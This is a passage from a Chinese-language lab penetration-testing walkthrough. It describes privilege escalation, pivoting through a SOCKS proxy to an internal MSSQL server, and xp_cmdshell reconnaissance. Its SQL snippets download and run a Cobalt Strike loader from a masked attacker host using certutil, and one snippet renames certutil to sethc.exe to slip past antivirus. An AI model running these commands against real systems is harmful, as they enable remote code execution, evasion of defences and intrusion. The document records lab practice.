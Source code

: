 ## 提权

通过烂土豆提权，即Erebus 插件中的MS16-075进行提权。

## 连接数据库

通过cs的默认socks4代理，并且本机上的DBeaver数据库连接工具通过proxifer转发代理，已连接内网数据库。

![9]({{ '/ack123/9.png' | prepend: site.url }})

# Data1

## 主机信息收集（Data1）

mssql执行命令，依旧对该数据库服务器进行一波信息收集。

![10]({{ '/ack123/10.png' | prepend: site.url }})

> xp_cmdshell 默认在 mssql2000 中是开启的，在 mssql2005 之后的版本中默认禁止，如果用户拥有管理员 sa 权限可以用 sp_configure 重新开启

### 系统信息

通过比对 `systeminfo` 信息，找到可提权的漏洞，比如ms16-075。

### 内网IP信息

```sql
EXEC master..xp_cmdshell 'ipconfig';
```

根据执行的命令可知该计算机的内网IP有：`192.168.22.133`、`192.168.76.107`。

### 进程信息

查看进程信息，发现存在火绒。

## 上线CS

使用 `certutil.exe` 远程下载加载器，但火绒拦截导致失败了。

```sql
EXEC master..xp_cmdshell 'certutil -urlcache -split -f http://xxx.xxx.xxx.xxx:8899/demo.exe C:\Windows\Temp\loader.exe';
```

根据[这篇文章](https://xz.aliyun.com/t/9265)利用mssql上线CS。

```sql
EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
EXEC sp_configure 'Ole Automation Procedures',1;
RECONFIGURE;
declare @o int EXEC sp_oacreate 'scripting.filesystemobject', @o out exec sp_oamethod @o, 'copyfile',null,'C:/Windows/System32/certutil.exe','C:/windows/temp/sethc.exe';
declare @shell int exec sp_oacreate 'wscript.shell', @shell output exec sp_oamethod @shell,'run',null,'C:/windows/temp/sethc.exe -urlcache -split -f "http://xxx.xxx.xxx.xxx:8899/demo.exe" C:/windows/temp/a.exe';
EXEC master..xp_cmdshell "C:/windows/temp/a.exe";
```
